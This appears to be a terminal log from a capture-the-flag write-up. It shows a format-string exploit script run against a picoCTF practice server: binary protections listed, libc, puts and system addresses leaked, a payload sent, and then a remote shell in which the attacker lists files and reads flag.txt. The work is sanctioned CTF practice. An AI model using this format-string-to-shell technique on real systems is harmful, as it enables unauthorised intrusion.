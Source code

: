 (base) tropic@vulcan:~/projects/RE-writeups/Format-String-3-medium$ python3 exploit.py remote
/home/tropic/micromamba/lib/python3.9/site-packages/unicorn/unicorn_py3/unicorn.py:123: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
[*] '/home/tropic/projects/RE-writeups/Format-String-3-medium/format-string-3'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x3ff000)
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[*] '/home/tropic/projects/RE-writeups/Format-String-3-medium/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[+] Opening connection to rhea.picoctf.net on port 58515: Done
[*] libc == 0x788e7e1ee000
[*] puts == 0x404018
[*] system == 0x788e7e23d760
[*] Switching to interactive mode
                                                                                               c                       \x8b     0               \x01                                                                        \x00                                                                           \x00aaaabaa\x18@@$                                              l                                                                                                                                                                                     ls                                                                                                                                                                                    ls
Makefile
artifacts.tar.gz
flag.txt
format-string-3
format-string-3.c
ld-linux-x86-64.so.2
libc.so.6
metadata.json
profile
$ cat flag.txt
